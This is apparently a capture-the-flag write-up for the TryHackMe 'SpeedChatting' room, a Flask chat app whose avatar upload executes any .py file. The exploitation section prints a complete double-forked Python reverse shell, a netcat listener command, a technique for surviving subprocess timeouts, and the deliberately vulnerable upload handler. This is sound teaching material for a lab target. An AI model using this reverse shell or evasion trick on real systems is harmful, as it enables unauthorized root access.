

## Overview

[SpeedChatting](https://tryhackme.com/room/lafb2026e4) is a small Flask box built around a dating-style chat app. The profile page lets you upload an avatar, and the server is a little too eager about what it does with the file you hand it — anything ending in `.py` gets run. That's the whole box: upload a Python reverse shell as a "profile picture" and the app executes it for us, straight to a root shell.

## Enumeration

The web app answers on `speedchat.thm`, so I mapped that hostname to the target in `/etc/hosts` before scanning.

```bash
nmap -T4 speedchat.thm
```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-09 10:08 UTC
Nmap scan report for speedchat.thm (10.113.170.117)
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

SSH on 22 and something on 5000 that nmap guessed as `upnp` purely from the port number. Port 5000 is the Flask default, so that label is almost certainly wrong — it's a web server.

Browsing to it confirms the app: a "Speed Chat Room" with a profile panel on the left and an **Update Photo** upload box.



The upload control is the obvious attack surface, so I put the traffic through Burp to see what the server actually is before poking at it.

```http
GET / HTTP/1.1
Host: speedchat.thm:5000

HTTP/1.1 200 OK
Server: Werkzeug/3.1.5 Python/3.10.12
Content-Type: text/html; charset=utf-8
```

`Werkzeug/.../Python/3.10.12` tells us it's a Flask app running on Python 3.10. Good to know up front — if the upload handling is sloppy, a Python payload is the natural fit.

The avatar upload posts to `/upload_profile_pic`. A successful upload comes back with:

```html
<div class='success-message'>
    Profile picture updated successfully!
</div>
```

and the file is served back from `/uploads/`:

```html

```

So the server renames uploads to `profile_<uuid>` but otherwise takes what we give it.

## Exploitation

### Uploading a Python payload

The app is Python and the upload is permissive, so the first thing I tried was feeding it a `.py` file rather than an image. If the server does anything beyond storing it, that's our way in.

Here's the reverse shell I uploaded:

```python
import os, pty, socket
if os.fork() != 0:
    os._exit(0)
os.setsid()
if os.fork() != 0:
    os._exit(0)
s = socket.socket()
s.connect(("<x.x.x.x>", 4444))
[os.dup2(s.fileno(), f) for f in (0, 1, 2)]
pty.spawn("sh")
```

The double `os.fork()` isn't decoration — it's the reason this works, which I'll come back to below. I saved that as a `.py` file and uploaded it through the browser like any other avatar.

On the listener side I used busybox's netcat, since it behaves well with the pty the shell spawns:

```bash
busybox nc -lp 4444
```

The connection came back almost immediately, and `whoami` answered `root` — no privesc stage needed, the app itself runs as root.

```text
Listening on 0.0.0.0 4444
Connection received on 10.113.170.117 50364
# whoami
root
```

```text
# cat flag.txt
THM{...}
```

> The whole box is root the moment the file executes, because the Flask process itself runs as root. Nothing to escalate.
{: .prompt-info }

### Why the double fork

Peeking at `app.py` on the box shows exactly why a `.py` upload runs, and why a naive shell dies:

```python
# WHITELIST: Only execute Python files (intentional vulnerability for CTF)
if unique_filename.endswith('.py'):
    print(f"[!] Executing Python file: {unique_filename}")
    try:
        result = subprocess.run(
            [sys.executable, filepath],
            capture_output=True,
            timeout=5,
            text=True
        )
```

The handler runs any uploaded `.py` through `subprocess.run(...)` with `timeout=5`. A plain reverse shell would be killed after five seconds when that call times out, dropping us right as we got in.

That's what the forks solve. The first `fork` + `setsid` detaches us from the subprocess's session; the second `fork` makes the shell a grandchild that's no longer a child of the `subprocess.run` process. When the timeout fires and kills the original process, our shell is already orphaned and keeps running. The parent exits cleanly inside the five seconds, so `subprocess.run` is happy, and we keep our session.

> If a timed `subprocess` keeps cutting your shell, daemonize it with a double fork so the real shell survives the parent getting reaped.
{: .prompt-tip }

## Conclusion

The chain was short:

1. A Flask app on port 5000 (mislabelled `upnp` by nmap) exposes an avatar upload at `/upload_profile_pic`.
2. The upload handler executes any file ending in `.py` with `subprocess.run`, giving arbitrary code execution.
3. A double-forked Python reverse shell survives the 5-second `subprocess` timeout and lands a shell.
4. The Flask process runs as root, so that shell is already root — flag in hand.

| Stage | Tools |
| --- | --- |
| Enumeration | nmap, Burp Suite |
| Exploitation | Python reverse shell, busybox nc |
